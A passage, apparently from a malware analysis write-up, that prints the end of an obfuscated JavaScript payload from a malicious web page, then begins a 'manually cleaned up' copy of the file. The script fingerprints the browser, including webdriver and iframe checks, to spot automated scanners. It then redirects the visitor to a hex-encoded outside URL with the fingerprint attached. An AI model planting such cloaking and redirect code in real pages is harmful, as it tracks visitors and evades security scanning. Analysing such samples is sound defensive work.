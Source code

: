                          ,function(){
                           return a.height}
                         ,function(){
                         }
                         ,function(){
                         }
                         ,function(){
                           return window.self===window.top?f:1}
                         ,function(){
                           return c.webdriver?1:f}
                         ,function(){
                           var n,t=[];
                           for(n in window)t.push(n);
                           t.sort();
                           {
                             var[i,u=0]=[t.join("\0")];
                             let r=3735928559^u,e=1103547991^u;
                             for(let n=0,t;n<i.length;n++)t=i.charCodeAt(n),r=Math.imul(r^t,2654435761),e=Math.imul(e^t,1597334677);
                             return r=Math.imul(r^r>>>16,2246822507)^Math.imul(e^e>>>13,3266489909),4294967296*(2097151&(e=Math.imul(e^e>>>16,2246822507)^Math.imul(r^r>>>13,3266489909)))+(r>>>0)}
                         }
                        ],e=[],i=0;i<r.length;++i)try{
                e.push(r[i]())}
              catch(n){
                e.push("!")}
              return h(e.join("\0"))}
            var t;
            try{
              t=n()}
            catch(n){
              try{
                t=h([0,n.message||n].join("\0"))}
              catch(n){
                t=""}
            }
            o.location.replace("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x77\x77\x32\x2e\x72\x65\x64\x69\x72\x65\x63\x74\x6d\x61\x73\x74\x65\x72\x2e\x63\x6f\x6d\x2f\x3f\x75\x74\x6d\x5f\x74\x65\x72\x6d\x3d\x37\x31\x32\x34\x30\x30\x34\x35\x35\x31\x30\x30\x36\x33\x35\x35\x35\x30\x39\x26\x76\x65\x72\x3d\x34\x76\x69\x79\x61\x70\x74\x63\x6a\x6f&utm_content="+t)}
          (document,window,navigator,screen);
        </script>
      </body>
    </html>

#### 3.3 File contents (Manually cleaned up)

    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">


    <html xmlns="http://www.w3.org/1999/xhtml">
